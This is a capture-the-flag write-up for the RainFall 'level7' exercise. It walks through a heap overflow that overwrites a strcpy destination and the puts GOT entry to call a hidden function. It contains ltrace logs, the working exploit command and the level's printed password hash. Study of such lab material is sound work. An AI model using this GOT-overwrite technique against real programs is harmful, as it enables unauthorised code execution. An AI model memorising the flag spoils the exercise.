 Ok so in this one we can see a uncalled function, m
This function prints a string c and an int that it get from time syscall
We should try and call that function

The main function copies arg0 and arg1 into size 8 mallocd buffers.

We cannot break anything before the fopen and fgets have been done properly, so my guess is that we should attack the puts call, since it's an external function

The fgets function address is located at 0x08049918, so we should try writing here

M function address is 0x080484f4 , so the goal is writing M address at fgets address 

Since heap grows up and stack grows down, during the first strcpy we should be able to go over the malloced buffer and into the stack, in order to reach the second strcpy target address, so by padding our 1st buffer, then adding fgets fun address and giving the M address as our second arg, it should copy the M function at the location of the fgets address, and when we call fgets we actually call M

Also this one is pretty annoying since we cannot see it run in gdb, as the fopen syscall will always fail and then crash the fgets, no gdb then..

While ltrace still doesnt help us we can at least see if we hit the good memory zone

python -c 'print("a" * 8 + "\x18\x99\x04\x08")'


if we do : 
```bash
ltrace ./level7 $(python -c 'print("a" * 100 + "\x18\x99\x04\x08")') b
__libc_start_main(0x8048521, 3, 0xbffff784, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                               = 0x0804a008
malloc(8)                                               = 0x0804a018
malloc(8)                                               = 0x0804a028
malloc(8)                                               = 0x0804a038
strcpy(0x0804a018, "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"...) = 0x0804a018
strcpy(0x61616161, "b" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

So we can see that our second strcpy has been overwritten by 61, so our a, theory seems to work, now to find the proper bound

There is 4 mallocs 8 getting called


```bash
level7@RainFall:~$ ltrace ./level7 aaaa bbbb
__libc_start_main(0x8048521, 3, 0xbffff7e4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                               = 0x0804a008
malloc(8)                                               = 0x0804a018
malloc(8)                                               = 0x0804a028
malloc(8)                                               = 0x0804a038
strcpy(0x0804a018, "aaaa")                              = 0x0804a018
strcpy(0x0804a038, "bbbb")                              = 0x0804a038
fopen("/home/user/level8/.pass", "r")                   = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

We are starting at address 0x0804a018, which is the second malloc, so we need to go 3*8 ? 24 ?

```bash
level7@RainFall:~$ ltrace ./level7 $(python -c 'print("a" * 24 + "\x18\x99\x04\x08")') b
__libc_start_main(0x8048521, 3, 0xbffff7d4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                               = 0x0804a008
malloc(8)                                               = 0x0804a018
malloc(8)                                               = 0x0804a028
malloc(8)                                               = 0x0804a038
strcpy(0x0804a018, "aaaaaaaaaaaaaaaaaaaaaaaa\030\231\004\b") = 0x0804a018
strcpy(0x61616161, "b" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
Still over, remove 4 for our address 

```bash
level7@RainFall:~$ ltrace ./level7 $(python -c 'print("a" * 20 + "\x18\x99\x04\x08")') b
__libc_start_main(0x8048521, 3, 0xbffff7d4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                               = 0x0804a008
malloc(8)                                               = 0x0804a018
malloc(8)                                               = 0x0804a028
malloc(8)                                               = 0x0804a038
strcpy(0x0804a018, "aaaaaaaaaaaaaaaaaaaa\030\231\004\b") = 0x0804a018
strcpy(0x08049918, "b")                                 = 0x08049918
fopen("/home/user/level8/.pass", "r")                   = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Ok so now we have the correct address in place ! Nice, let's just add the m address in place of our second argument

$(python -c 'print("a" * 20 + "\x18\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")') 


```bash
level7@RainFall:~$ ltrace ./level7 $(python -c 'print("a" * 20 + "\x18\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
__libc_start_main(0x8048521, 3, 0xbffff7d4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                               = 0x0804a008
malloc(8)                                               = 0x0804a018
malloc(8)                                               = 0x0804a028
malloc(8)                                               = 0x0804a038
strcpy(0x0804a018, "aaaaaaaaaaaaaaaaaaaa\030\231\004\b") = 0x0804a018
strcpy(0x08049918, "\364\204\004\b")                    = 0x08049918
fopen("/home/user/level8/.pass", "r")                   = 0
fgets( <unfinished ...>
time(NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Ok so now we can see that the time function is called, which is what we wanted !

But it should be after fgets, we overrid the wrong pointer, it's not fgets but puts that we need to attack, my bad, it's at 0x08049928

$(python -c 'print("a" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")') 

```bash
level7@RainFall:~$ ltrace ./level7 $(python -c 'print("a" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
__libc_start_main(0x8048521, 3, 0xbffff7d4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                               = 0x0804a008
malloc(8)                                               = 0x0804a018
malloc(8)                                               = 0x0804a028
malloc(8)                                               = 0x0804a038
strcpy(0x0804a018, "aaaaaaaaaaaaaaaaaaaa(\231\004\b")   = 0x0804a018
strcpy(0x08049928, "\364\204\004\b")                    = 0x08049928
fopen("/home/user/level8/.pass", "r")                   = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Still crashes but it crashes at the fgets, it should be fine i guess

```bash
level7@RainFall:~$ ./level7 $(python -c 'print("a" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1709401707
level7@RainFall:~$
```
got it